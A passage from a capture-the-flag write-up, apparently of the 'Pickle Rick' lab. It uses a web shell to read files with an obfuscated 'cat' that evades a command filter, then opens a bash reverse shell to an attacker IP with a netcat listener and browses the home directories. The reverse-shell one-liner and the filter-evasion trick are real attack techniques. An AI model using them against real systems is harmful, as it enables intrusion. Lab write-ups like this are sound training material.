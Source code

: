 Looks like we found our first ingredient. Let's cat the file using the obfuscation method used earlier (`var1="c"; var2="at"; eval "$var1$var2 /var/www/html/Sup3rS3cretPickl3Ingred.txt"`).

```text
REDACTED
```

Maybe the clue file will help us with the next ingredient (`var1="c"; var2="at"; eval "$var1$var2 /var/www/html/clue.txt"`).

```text
Look around the file system for the other ingredient.
```

## Opening a Reverse Shell

We could continue to use the web shell, but it'll be easier to move around the system with a fully functional shell. There are many options here. We could:
1. Hijack _index.html_ by renaming it to _index.php_ and overwrite it with a PHP reverse shell.
2. Generate a reverse shell binary with `msfvenom`, write it to _tmp_, and execute it.
3. Directly invoke a reverse shell from the web shell.

The third option seems the simplest, although I had a lot of issues getting a stable shell. I ultimately used option two and then after completing the objectives I dug into why my shells weren't working. See the [[#Shell Failure Analysis]] section for more information.

### Second Ingredient

Using the web shell, we can open a bash reverse shell (`bash -c 'bash -i >& /dev/tcp/10.0.0.100/4444 0>&1'`) as the www-data user.

```console
$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [parrot] from (UNKNOWN) [picklerick] 40300
bash: cannot set terminal process group (1336): Inappropriate ioctl for device
bash: no job control in this shell
www-data@picklerick:/var/www/html$ whoami
whoami
www-data
www-data@picklerick:/var/www/html$ 
```

It's now much easier to move around the system and we quickly find there's a home directory for rick with the second ingredient.

```console
www-data@picklerick:/var/www/html$ cd /home
cd /home
www-data@picklerick:/home$ ls -al
ls -al
total 16
drwxr-xr-x  4 root   root   4096 Feb 10  2019 .
drwxr-xr-x 23 root   root   4096 Dec 31 00:44 ..
drwxrwxrwx  2 root   root   4096 Feb 10  2019 rick
drwxr-xr-x  4 ubuntu ubuntu 4096 Dec 31 02:51 ubuntu
www-data@picklerick:/home$ cd rick
cd rick
www-data@picklerick:/home/rick$ ls -al
ls -al
total 12
drwxrwxrwx 2 root root 4096 Feb 10  2019 .
drwxr-xr-x 4 root root 4096 Feb 10  2019 ..
-rwxrwxrwx 1 root root   13 Feb 10  2019 second ingredients
www-data@picklerick:/home/rick$ cat second\ ingredients
cat second\ ingredients
REDACTED
www-data@picklerick:/home/rick$ 
```